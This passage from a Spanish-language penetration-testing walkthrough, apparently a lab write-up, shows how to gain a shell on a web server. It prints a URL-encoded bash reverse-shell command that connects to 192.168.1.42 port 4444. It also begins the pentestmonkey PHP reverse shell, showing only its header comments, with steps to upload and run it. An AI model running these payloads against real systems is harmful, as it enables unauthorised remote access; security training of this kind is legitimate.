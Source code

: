 Hasta aquí todo ha ido bien, pero estamos interesados en entrar dentro de la máquina que aloja el servidor. Para ello, usaremos la web [Revshell](https://www.revshells.com/) para generar una reverse shell. Solo tenemos que configurar nuestra ip atacante y el puerto para poner a nc escuchando y recibir la conexión. 
Pero no solo se trata de copiar el comando y pegarlo en un archivo, si no que antes tenemos que urlencodearlo con burpsuite para que funcione. Es conveniente usar antes del comando ```bash -c``` y encapsularlo todo entre comillas.

[![reverse_shell](/reverse_shell.png)](/reverse_shell.png)
 
Una vez abierto el [Burpsuite](https://portswigger.net/burp), vamos a la sección Decoder, pegamos el comando generado por la web y en Encode as escogemos la opción URL. El resultado lo pegamos en el navegador  y lo ejecutamos. Y ya deberíamos tener una shell abierta dentro de la máquina por nuestro nc.

```bash
%62%61%73%68%20%2d%63%20%22%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%34%32%2f%34%34%34%34%20%30%3e%26%31%22
```

[![encode](/encode.png)](/encode.png)

[![shell](/shell_php.png)](/shell_php.png)

## Automático

Pero no todo es complicado ni engorroso. Tenemos una forma de hacer todo esto de manera automática.
Solo tenemos que copiar este código en un archivo, cambiar la ip y el puerto, subirlo y ejecutarlo y ya estaremos dentro de la máquina.

```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
```